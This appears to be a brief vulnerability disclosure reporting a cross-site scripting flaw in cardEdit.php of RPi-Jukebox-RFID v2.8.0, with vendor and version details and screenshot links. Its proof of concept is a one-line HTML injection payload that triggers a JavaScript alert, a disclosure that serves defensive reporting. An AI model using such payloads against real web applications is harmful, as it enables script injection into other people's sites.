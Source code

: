 # XSS vulnerability in [RPi-Jukebox-RFID](https://github.com/MiczFlor/RPi-Jukebox-RFID) v2.8.0 of file /cardEdit.php

**vender**:

- [MiczFlor/RPi-Jukebox-RFID: A Raspberry Pi jukebox, playing local music, podcasts, web radio and streams triggered by RFID cards, web app or home automation. All plug and play via USB. GPIO scripts available.](https://github.com/MiczFlor/RPi-Jukebox-RFID)

**SoftLink**:

- [Release v2.8.0: Fix Spotify Authentication · MiczFlor/RPi-Jukebox-RFID](https://github.com/MiczFlor/RPi-Jukebox-RFID/releases/tag/v2.8.0)

**Vulnerable File**

- /htdocs/cardEdit.php

**Version**

- 2.8.0

### POC

```
"><img src=x onerror=alert('xss')>
```

http://192.168.100.101/phoniebox/htdocs/cardEdit.php

![image-20250825031832024](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508250318194.png)





![image-20250825031846771](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508250318530.png)